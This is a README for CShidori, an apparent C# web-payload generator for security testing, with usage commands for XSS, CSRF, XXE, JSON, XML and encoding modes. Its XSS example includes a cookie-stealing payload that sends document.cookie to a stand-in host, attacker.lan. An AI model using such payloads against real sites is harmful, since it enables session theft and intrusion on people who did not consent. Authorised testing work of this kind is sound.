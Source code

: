 # CShidori

A C# "Thousand Birds" Payloads Generator

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)
Taisen: [Website](https://taisen.fr)

## supported modes/payloads

- Mutation
- XSS
- JSON
- XML
- GET
- CSRF
- XXE
- Encoding

## Usage

### Mutation

```powershell
.\CShidori.exe -m mut -p 5 -i test
```

### XSS / Injections

```powershell
.\CShidori.exe -m xss -i 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

```powershell
.\CShidori.exe -m json -p ..\testing\test.json -i "'"
```

### XML

```powershell
.\CShidori.exe -m xml -p ..\testing\exemple.xml -i "'"
```

### GET

```powershell
.\CShidori.exe -m get -p "?bar=foo&foo=bar" -i "'"
```

### CSRF

```powershell
.\CShidori.exe -m csrf -o get -p http://target.lan -i "name1=value1&name2=value2"
.\CShidori.exe -m csrf -o post -p http://target.lan -i "name1=value1&name2=value2"
```

### XXE

```powershell
.\CShidori.exe -m xxe -o file
.\CShidori.exe -m xxe -o call 
.\CShidori.exe -m xxe -o all 
```
### Encode

```powershell
.\CShidori.exe -m enc -p "<script>alert(1)</script>"
```

## Miscellaneous

### CShidori-Spring.ps1

Security hotspots, endpoints, parameters and wsdl grabber from Spring projects

```powershell
. .\Spring-parser.ps1
Get-SpringArtefact -source .\project\repository -output .
```

### SOAP & XSD

Removed since you can perform it from Visual Studio:
- Merge XSD in WSDL
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter localPath"
